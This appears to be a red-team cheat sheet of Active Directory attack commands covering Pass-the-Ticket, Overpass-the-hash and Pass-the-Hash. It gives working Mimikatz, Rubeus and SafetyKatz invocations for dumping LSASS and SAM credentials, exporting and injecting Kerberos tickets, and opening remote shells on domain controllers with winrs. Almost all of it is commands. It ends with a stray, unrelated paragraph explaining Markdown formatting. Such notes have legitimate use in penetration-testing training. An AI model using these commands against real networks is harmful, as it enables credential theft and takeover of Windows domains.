 # PTH, PTT, Overpth, ptk

### Pass-the-Ticket

```markdown
## Extract ticket
privilege::debug => sekurlsa::tickets /export
```

### Inject ticket into current session

```powershell
kerberos::ptt [0;304edb]-2-0-40e10000-Administrator@krbtgt-WARGREY.MON.kirbi
winrs.exe -r:<any other dc> cmd.exe
```

Reference: [Experimenting with Kerberos Ticket Formats](https://tw1sm.github.io)

***

## Overpass-the-hash / Pass-the-Key

### Obtain encryption key

```powershell
privilege::debug => sekurlsa::ekeys
```

#### RC4 algorithm

```bash
sekurlsa::pth /user:Administrator /domain:pdc.wargrey.mon /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:powershell.exe
```

#### AES128

```plaintext
sekurlsa::pth /user:Administrator /domain:pdc.wargrey.mon /aes128:b65ea8151f13a31d01377f5934bf3883 /run:powershell.exe
```

#### AES256

```plaintext
sekurlsa::pth /user:Administrator /domain:pdc.wargrey.mon /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:powershell.exe
```

```plaintext
winrs.exe -r:<any other dc> cmd.exe
```

#### Using Rubeus

```plaintext
Rubeus.exe asktgt /user:administrator /rc4:ntlmhash /ptt
Rubeus.exe asktgt /user:administrator/aes256:ntlmhash /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
Rubeus.exe ptt /ticket:base64
```

***

## Pass-the-hash

```powershell
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "lsadump::sam""exit"'
Invoke-Mimikatz -command '"privilege::debug" "token::elevate" "sekurlsa::msv""exit"'
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD
```

```markup
mimikatz# token::revert
mimikatz# sekurlsa::pth /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /domain:pdc /run:powershell.exe
mimikatz# sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:powershell.exe
```

```powershell
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256 krbtgt hash> /run:cmd.exe" “exit”
```

```powershell
Rubeus.exe asktgt /user:SHALBY /rc4:5D88C6E440C1B976A9C1A2EF6AD66083 /ptt
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
SafetyKatz.exe “sekurlsa::pth /user:user /domain:anything.domain.local /aes256:<> /run:cmd.exe” “exit”
```

```markup
winrs -r:dc whoami
winrs -r:dc cmd
```

PtH involved directly authenticating to a host by literally sending the password’s hash to the host during the authentication process, while OPtH is way more subtle as it abuses Kerberos authentication.

***

## overPassTheHash

[Video Reference](https://youtu.be/EA2kod-okIg?si=t6s0OoxRsoGzRcWY)

````

In Markdown, each section is separated by headers (`#` for main headers and `##` for sub-headers), and code blocks are denoted by triple backticks ``` before and after the code/text. Links are formatted using `[text](URL)`. Adjust the formatting as per your preference or style guide.
````
